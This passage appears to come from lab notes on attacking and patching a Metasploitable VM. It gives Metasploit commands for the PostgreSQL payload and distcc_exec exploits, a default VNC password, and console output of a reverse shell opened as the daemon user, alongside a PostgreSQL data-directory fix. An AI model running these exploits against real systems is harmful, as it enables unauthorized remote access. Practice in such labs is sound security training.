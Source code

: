 * `use  exploit linux/postgres/postgres_payload`
* `exploit(linux/postgres/postgres_payload) set RHOST metasploitable_ip`
* `exploit(linux/postgres/postgres_payload) run`

* This worked because PostGres is set up to write to the default directory which means that the fix is to change the directory from the default so that the payload won't work. 

* The config file can be found in /etc/postgresql/8.3/main/postgresql.conf. 
* The default directory is /var/lib/postgresql/8.3/main so you can change it to whatever you like. 
		* Just know that you actually need to go out and create the new directory because writing it in the config file alone is not enough. Also, make sure you reboot the Metasploitable machine after changing this.

```text
# inside of /var/lib/postgresql/ver/main
data_directory = '/var/lib/postgresql/ver/datadir'
```

### VNC 
---
* weak password: `msfadmin:password`

### distccd => program to scale large compiler jobs across configured systesm
----
* attackers can abuse the service
```bash
msfconsole

msf > use exploit/unix/misc/distcc_exec
msf  exploit(distcc_exec) > set RHOST 192.168.99.131
msf  exploit(distcc_exec) > exploit

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo uk3UdiwLUq0LX3Bi;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "uk3UdiwLUq0LX3Bi\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.51.101:4444 -> 192.168.51.102:38897) at 2012-05-31 22:06:03 -0700

id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```


## What Can't Be Patched
----
